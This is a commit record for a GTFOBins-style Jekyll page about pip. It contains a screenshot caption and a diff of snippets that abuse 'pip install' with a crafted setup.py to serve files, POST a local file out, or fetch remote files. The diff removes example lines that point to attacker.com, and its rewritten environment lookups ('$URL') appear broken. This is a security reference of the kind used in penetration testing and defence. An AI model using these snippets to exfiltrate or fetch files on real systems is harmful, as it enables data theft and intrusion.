

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/pip.md, in a window 1280 px wide. Shown: the part 335-1297 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1222 px from its top, so only the background shows below that.

Commit message:
Update pip.md

```diff
--- a/_gtfoud/pip.md
+++ b/_gtfoud/pip.md
@@ -3,33 +3,28 @@ functions:
   server:
     - description: Serve files in the local folder running an HTTP server.
       code: |
-        export LPORT=8888
         TF=$(mktemp -d)
         echo 'import sys; from os import environ as e
         if sys.version_info.major == 3: import http.server as s, socketserver as ss
         else: import SimpleHTTPServer as s, SocketServer as ss
-        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
+        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
         pip install $TF
   file-upload:
     - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        export URL=http://attacker.com/
-        export LFILE=file_to_send
         TF=$(mktemp -d)
         echo 'import sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
         else: import urllib as u, urllib2 as r
-        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' > $TF/setup.py
+        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))' > $TF/setup.py
         pip install $TF
   file-download:
     - description: Fetch a remote file via HTTP GET request. It needs an absolute local file path.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=/tmp/file_to_save
         TF=$(mktemp -d)
         echo 'import sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r
         else: import urllib as r
-        r.urlretrieve(e["URL"], e["LFILE"])' > $TF/setup.py
+        r.urlretrieve(e["$URL"], e["$LFILE"])' > $TF/setup.py
         pip install $TF
 ---
```
